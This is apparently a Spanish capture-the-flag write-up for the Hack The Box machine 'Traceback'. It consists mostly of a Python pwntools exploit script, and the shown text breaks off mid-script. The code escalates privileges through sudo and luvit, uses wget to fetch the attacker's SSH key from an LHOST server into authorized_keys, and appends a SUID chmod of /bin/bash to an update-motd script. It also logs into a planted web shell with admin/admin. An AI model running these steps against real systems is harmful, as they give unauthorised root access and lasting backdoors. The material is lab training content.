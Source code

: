 Defino aquí toda la lógica que vimos anteriormente para poder escalar a root.
```python
def escalarRoot(LHOST):
	p3 = log.progress("Root")
	p3.status("Escalando de webmin a sysadmin.")
	shell.sendline(""" sudo -u sysadmin /home/sysadmin/luvit -e "os.execute('/bin/bash')" """) # Me convierto en el usuario sysadmin.
	shell.sendline("cd ~/.ssh") #Voy al directorio .ssh del usuario sysadmin.
	time.sleep(2)
	p3.status("Sobreescribiendo clave ssh.")
	shell.sendline("wget http://{}:8000/id_rsa.pub -O authorized_keys".format(LHOST)) #Descargo mi clave publica ssh de mi servidor.
	time.sleep(2)
	os.system("ps -aux | grep  'SimpleHTTPServer' | head -n 1 | awk '{print $2}' | xargs kill") #Mato el proceso del servidor.
	p3.status("Asignando SUID a /bin/bash.")
	time.sleep(3)
	shell.sendline(""" cd /etc/update-motd.d && echo "chmod u+s /bin/bash" >> 00-header """) #Asigno el SUID al binario /bin/bash.
	p3.success("Somos root!!")
	sys.exit(0) #Termino la ejecución del programa.
```

Creo un método para levantar un servidor en mi carpeta .ssh y poder compartir esos archivos.
```python
def upServer():
	os.system("cd ~/.ssh && python -m SimpleHTTPServer 8000 &")
```
Código completo:

```python
#!/usr/bin/env python3
#Author: Intrusionz3r0

import requests,time,threading,sys,signal
from pwn import *

#Variables Globales

LPORT=1234

def handler(key,frame):
	print("Adios!!")
	sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)

def getShell(LHOST):

	url = "http://traceback.htb/smevk.php"
	s = requests.session()

	p1 = log.progress("Login")
	data1={
		"uname":"admin",
		"pass":"admin",
		"login":"Login"
	}
	p1.status("Ingresando credenciales.")
	time.sleep(4)
	r1 = s.post(url,data=data1)
	p1.success("Logueado correctamente.")

	p2 = log.progress("Shell")
	data2={
```